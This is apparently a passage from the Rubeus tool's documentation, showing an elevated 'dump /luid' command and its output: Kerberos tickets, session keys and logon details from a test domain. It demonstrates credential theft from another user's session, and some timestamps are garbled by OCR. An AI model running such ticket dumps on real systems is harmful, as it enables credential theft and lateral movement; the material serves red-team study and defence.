 
**Elevated** extraction of tickets from a specific logon session:

 C:\Rubeus>Rubeus.exe dump /luid:0x47869cc

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3



 [*] Action: Dump Kerberos Ticket Data (All Users)

 [*] Target LUID: 0x47869cc

 UserName : harmj0y
 Domain : TESTLAB
 LogonId : 0x47869cc
 UserSID : S-1-5-21-883232822-274137685-4173207997-1111
 AuthenticationPackage : Negotiate
 LogonType : Interactive
 LogonTime : 2/11/2019 1131 PM
 LogonServer : PRIMARY
 LogonServerDNSDomain : TESTLAB.LOCAL
 UserPrincipalName : harmj0y@testlab.local

 [*] Enumerated 3 ticket(s):

 ServiceName : krbtgt/TESTLAB.LOCAL
 TargetName : krbtgt/TESTLAB.LOCAL
 ClientName : harmj0y
 DomainName : TESTLAB.LOCAL
 TargetDomainName : TESTLAB.LOCAL
 AltTargetDomainName : TESTLAB.LOCAL
 SessionKeyType : rc4_hmac
 Base64SessionKey : u9DOCzuGKAZB6h/E/9XcFg==
 KeyExpirationTime : 12/31/1600 400 PM
 TicketFlags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
 StartTime : 2/11/2019 353 PM
 EndTime : 2/11/2019 813 PM
 RenewUntil : 2/12019 313 PM
 TimeSkew : 0
 EncodedTicketSize : 1306
 Base64EncodedTicket :

 doIFFjCCBRKgAwIBBaEDAgEWoo...(snip)...

 ServiceName : krbtgt/TESTLAB.LOCAL
 TargetName : krbtgt/TESTLAB.LOCAL
 ClientName : harmj0y
 DomainName : TESTLAB.LOCAL
 TargetDomainName : TESTLAB.LOCAL
 AltTargetDomainName : TESTLAB.LOCAL
 SessionKeyType : aes256_cts_hmac_sha1
 Base64SessionKey : tKcszT8rdYyxBxBHlkpmJ/SEsfON8mBMs4ZN/29Xv8A=
 KeyExpirationTime : 12/31/1600 400 PM
 TicketFlags : name_canonicalize, pre_authent, initial, renewable, forwardable
 StartTime : 2/11/2019 313 PM
 EndTime : 2/11/2019 813 PM
 RenewUntil : 2/12019 313 PM
 TimeSkew : 0
 EncodedTicketSize : 1338
